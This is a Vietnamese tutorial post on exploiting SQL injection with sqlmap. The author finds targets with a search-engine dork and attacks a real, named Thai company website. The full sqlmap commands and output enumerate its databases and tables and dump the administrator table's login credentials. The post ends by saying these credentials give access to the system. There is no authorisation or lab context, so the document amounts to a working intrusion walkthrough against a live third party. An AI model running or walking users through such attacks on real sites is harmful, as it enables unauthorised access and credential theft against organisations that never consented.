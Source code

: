 ```yaml
---
title: Khai Thác Lỗi SQl Injection (sqlmap)
date: 4/6/2021
layout: single

--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)


### SQLMap là gì

SQLMAP là công cụ khai thác những lổ hỏng của cơ sở dữ liệu SQL. Công cụ này được xem là công cụ khai thác SQL tốt nhất hiện nay. Được giới bảo mật và giới hacker sử dụng thường xuyên. Với người dùng Kali hoặc Back Track 5 thì SQLMAP đã được tích hợp sẵn vào hệ điều hành. Riêng Windows thì chúng ta phải cài đặt thêm python và SQLMAP để sử dụng

Đây là công cụ mã nguồn mở, tự động hóa quá trình phát hiện và khai thác lỗ hổng SQL. Nó đi kèm với một công cụ phát hiện mạnh mẽ, nhiều tính năng thích hợp cho trình kiểm tra thâm nhập cuối cùng

Tải sqlmap tại [https://sqlmap.org/](https://sqlmap.org/) 

--- 

## Khai Thác 
Đầu tiên tôi tìm các liên kết về inurl php id= .co.th
Tôi thử với trang [http://www.megaplanet.co.th/project-details.php?id=26](http://www.megaplanet.co.th/project-details.php?id=26) 


---
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 --dbs

Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=26 AND 1040=1040

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=26 AND (SELECT 3942 FROM (SELECT(SLEEP(5)))QFnO)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=26 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71766a7871,0x4c6f7467466a4c417963637a566c444b534a596b57574859674653504e4379586256644d66517745,0x7178627171),NULL,NULL,NULL,NULL-- -
---
[21:55:40] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:55:40] [INFO] fetching database names
[21:55:40] [WARNING] reflective value(s) found and filtering out
[21:55:40] [INFO] resumed: 'information_schema'
[21:55:40] [INFO] resumed: 'megaplanet_db'
available databases [2]:
[*] information_schema
[*] megaplanet_db

[21:55:40] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\www.megaplanet.co.th'

```
Sau khi xác định được tên cơ sở dữ liệu, tôi lại tìm tiếp tên các bảng có trong cơ sở dữ liệu 
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db --tables
[22:09:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:09:57] [INFO] fetching tables for database: 'megaplanet_db'
[22:09:57] [WARNING] reflective value(s) found and filtering out
[22:09:57] [INFO] resumed: 'tb_pic'
[22:09:57] [INFO] resumed: 'tb_project'
[22:09:57] [INFO] resumed: 'config'
[22:09:57] [INFO] resumed: 'project_ref'
[22:09:57] [INFO] resumed: 'tb_sort'
[22:09:57] [INFO] resumed: 'tb_cateproduct'
[22:09:57] [INFO] resumed: 'tb_detailhome'
[22:09:57] [INFO] resumed: 'administrator'
[22:09:57] [INFO] resumed: 'tb_banner'
[22:09:57] [INFO] resumed: 'tb_title'
[22:09:57] [INFO] resumed: 'tb_admin'
[22:09:57] [INFO] resumed: 'news'
[22:09:57] [INFO] resumed: 'tb_seo'
[22:09:57] [INFO] resumed: 'tb_news'
[22:09:57] [INFO] resumed: 'products'
[22:09:57] [INFO] resumed: 'tb_config'
[22:09:57] [INFO] resumed: 'tb_product'
[22:09:57] [INFO] resumed: 'tb_slide'
[22:09:57] [INFO] resumed: 'catpro'
[22:09:57] [INFO] resumed: 'subcatpro'
Database: megaplanet_db
[20 tables]
+----------------+
| administrator  |
| catpro         |
| config         |
| news           |
| products       |
| project_ref    |
| subcatpro      |
| tb_admin       |
| tb_banner      |
| tb_cateproduct |
| tb_config      |
| tb_detailhome  |
| tb_news        |
| tb_pic         |
| tb_product     |
| tb_project     |
| tb_seo         |
| tb_slide       |
| tb_sort        |
| tb_title       |
+----------------+

```
Xác định tên các cột trong bảng
Ta thấy administrator có thể chứa thông tin đăng nhập, nên ta sử dụng lệnh sau để xác định trong bảng administrator
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db -T administrator --dump
[22:14:20] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:14:20] [INFO] fetching columns for table 'administrator' in database 'megaplanet_db'
[22:14:20] [WARNING] reflective value(s) found and filtering out
[22:14:20] [INFO] resumed: 'ID','int(11)'
[22:14:20] [INFO] resumed: 'admin','varchar(50)'
[22:14:20] [INFO] resumed: 'password','varchar(50)'
[22:14:20] [INFO] resumed: 'active','int(11)'
[22:14:20] [INFO] fetching entries for table 'administrator' in database 'megaplanet_db'
Database: megaplanet_db
Table: administrator
[1 entry]
+----+-------+--------+----------+
| ID | admin | active | password |
+----+-------+--------+----------+
| 1  | admin | 1      | adminxxx |
+----+-------+--------+----------+

```
Bảng administrator có 1 bản ghi chứa thông tin của username và password là "admin", "adminxxx" Sử dụng tài khoản này, ta sẽ đăng nhập vào được hệ thống

---

## Chúc May Mắn :D
